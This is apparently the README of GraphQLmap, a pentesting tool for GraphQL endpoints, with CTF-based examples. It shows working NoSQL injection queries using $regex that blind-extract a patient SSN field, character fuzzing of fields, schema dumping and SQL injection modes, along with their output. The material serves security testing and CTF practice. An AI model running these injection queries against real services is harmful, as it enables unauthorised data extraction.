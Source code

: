 # GraphQLmap

> GraphQLmap is a scripting engine to interact with a graphql endpoint for pentesting purposes.


* [Install](#install)
* [Features and examples](#features-and-examples)
  - [Dump a GraphQL schema](#dump-a-graphql-schema)
  - [Interact with a GraphQL endpoint](#interact-with-a-graphql-endpoint)
  - Execute GraphQL queries
  - Autocomplete queries
  - [GraphQL field fuzzing](#graphql-field-fuzzing)
  - [NoSQL injection inside a GraphQL field](#nosql-injection)
  - [SQL injection inside a GraphQL field](#sqli-injection)

I :heart: pull requests, feel free to improve this script :)

You can also contribute with a :beers: IRL or using Github Sponsoring button.

## Install

```basic
$ git clone https://github.com/swisskyrepo/GraphQLmap
$ python graphqlmap.py                                                              
   _____                 _      ____  _                            
  / ____|               | |    / __ \| |                           
 | |  __ _ __ __ _ _ __ | |__ | |  | | |     _ __ ___   __ _ _ __  
 | | |_ | '__/ _` | '_ \| '_ \| |  | | |    | '_ ` _ \ / _` | '_ \ 
 | |__| | | | (_| | |_) | | | | |__| | |____| | | | | | (_| | |_) |
  \_____|_|  \__,_| .__/|_| |_|\___\_\______|_| |_| |_|\__,_| .__/ 
                  | |                                       | |    
                  |_|                                       |_|    
                                         Author:Swissky Version:1.0
usage: graphqlmap.py [-h] [-u URL] [-v [VERBOSITY]] [--method [METHOD]] [--headers [HEADERS]]

optional arguments:
  -h, --help          show this help message and exit
  -u URL              URL to query : example.com/graphql?query={}
  -v [VERBOSITY]      Enable verbosity
  --method [METHOD]   HTTP Method to use interact with /graphql endpoint
  --headers [HEADERS] HTTP Headers sent to /graphql endpoint
```


## Features and examples

:warning: Examples are based on several CTF challenges from HIP2019.

### Connect to a graphql endpoint

```
python3 graphqlmap.py -u https://yourhostname.com/graphql -v --method POST --headers '{"Authorization" : "Bearer eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ0ZXh0Ijoibm8gc2VjcmV0cyBoZXJlID1QIn0.JqqdOesC-R4LtOS9H0y7bIq-M8AGYjK92x4K3hcBA6o"}'
```

### Dump a GraphQL schema

Use `dump_new` to dump the GraphQL schema, this function will automaticly populate the "autocomplete" with the found fields.    
[:movie_camera: Live Example](https://asciinema.org/a/14YuWoDOyCztlx7RFykILit4S)

```powershell
GraphQLmap > dump_new                     
============= [SCHEMA] ===============
e.g: name[Type]: arg (Type!)                   
                                                                                               
Query                                          
        doctor[]: email (String!),                                                             
        doctors[Doctor]:                                                                       
        patients[Patient]:                                                                     
        patient[]: id (ID!),                   
        allrendezvous[Rendezvous]:                                                             
        rendezvous[]: id (ID!),                                                                
Doctor                                         
        id[ID]:                                                                                
        firstName[String]:                     
        lastName[String]:                                                                      
        specialty[String]:                     
        patients[None]: 
        rendezvous[None]: 
        email[String]: 
        password[String]: 
[...]
```


### Interact with a GraphQL endpoint

Write a GraphQL request and execute it.

```powershell
GraphQLmap > {doctors(options: 1, search: "{ \"lastName\": { \"$regex\": \"Admin\"} }"){firstName lastName id}}
{
    "data": {
        "doctors": [
            {
                "firstName": "Admin",
                "id": "5d089c51dcab2d0032fdd08d",
                "lastName": "Admin"
            }
        ]
    }
}
```

### GraphQL field fuzzing

Use `GRAPHQL_INCREMENT` and `GRAPHQL_CHARSET` to fuzz a parameter.      
[:movie_camera: Live Example](https://asciinema.org/a/ICCz3PqHVNrBf262x6tQfuwqT)

```powershell
GraphQLmap > {doctors(options: 1, search: "{ \"lastName\": { \"$regex\": \"AdmiGRAPHQL_CHARSET\"} }"){firstName lastName id}}   
[+] Query: (45) {doctors(options: 1, search: "{ \"lastName\": { \"$regex\": \"Admi!\"} }"){firstName lastName id}}   
[+] Query: (45) {doctors(options: 1, search: "{ \"lastName\": { \"$regex\": \"Admi$\"} }"){firstName lastName id}}   
[+] Query: (45) {doctors(options: 1, search: "{ \"lastName\": { \"$regex\": \"Admi%\"} }"){firstName lastName id}}   
[+] Query: (45) {doctors(options: 1, search: "{ \"lastName\": { \"$regex\": \"Admi(\"} }"){firstName lastName id}}   
[+] Query: (45) {doctors(options: 1, search: "{ \"lastName\": { \"$regex\": \"Admi)\"} }"){firstName lastName id}}   
[+] Query: (206) {doctors(options: 1, search: "{ \"lastName\": { \"$regex\": \"Admi*\"} }"){firstName lastName id}}   
[+] Query: (45) {doctors(options: 1, search: "{ \"lastName\": { \"$regex\": \"Admi+\"} }"){firstName lastName id}}   
[+] Query: (45) {doctors(options: 1, search: "{ \"lastName\": { \"$regex\": \"Admi,\"} }"){firstName lastName id}}   
[+] Query: (45) {doctors(options: 1, search: "{ \"lastName\": { \"$regex\": \"Admi-\"} }"){firstName lastName id}}   
[+] Query: (206) {doctors(options: 1, search: "{ \"lastName\": { \"$regex\": \"Admi.\"} }"){firstName lastName id}}   
[+] Query: (45) {doctors(options: 1, search: "{ \"lastName\": { \"$regex\": \"Admi/\"} }"){firstName lastName id}}   
[+] Query: (45) {doctors(options: 1, search: "{ \"lastName\": { \"$regex\": \"Admi0\"} }"){firstName lastName id}}   
[+] Query: (45) {doctors(options: 1, search: "{ \"lastName\": { \"$regex\": \"Admi1\"} }"){firstName lastName id}}     
[+] Query: (206) {doctors(options: 1, search: "{ \"lastName\": { \"$regex\": \"Admi?\"} }"){firstName lastName id}}
[+] Query: (206) {doctors(options: 1, search: "{ \"lastName\": { \"$regex\": \"Admin\"} }"){firstName lastName id}}
```

### NoSQLi injection

Use `BLIND_PLACEHOLDER` inside the query for the `nosqli` function.    
[:movie_camera: Live Example](https://asciinema.org/a/wp2lixHqRV0pxxhZ8nsgUj6s7)

```powershell
GraphQLmap > nosqli
Query > {doctors(options: "{\"\"patients.ssn\":1}", search: "{ \"patients.ssn\": { \"$regex\": \"^BLIND_PLACEHOLDER\"}, \"lastName\":\"Admin\" , \"firstName\":\"Admin\" }"){id, firstName}}
Check > 5d089c51dcab2d0032fdd08d
Charset > 0123456789abcdef-
[+] Data found: 4f537c0a-7da6-4acc-81e1-8c33c02ef3b
GraphQLmap >
```

### SQL injection 

```powershell
GraphQLmap > postgresqli
GraphQLmap > mysqli
GraphQLmap > mssqli
```


## TODO

* Docker with vulnerable GraphQL
* Unit tests
* Handle node
```
{
  user {
    edges {
      node {
        username
      }
    }
  }
}
```
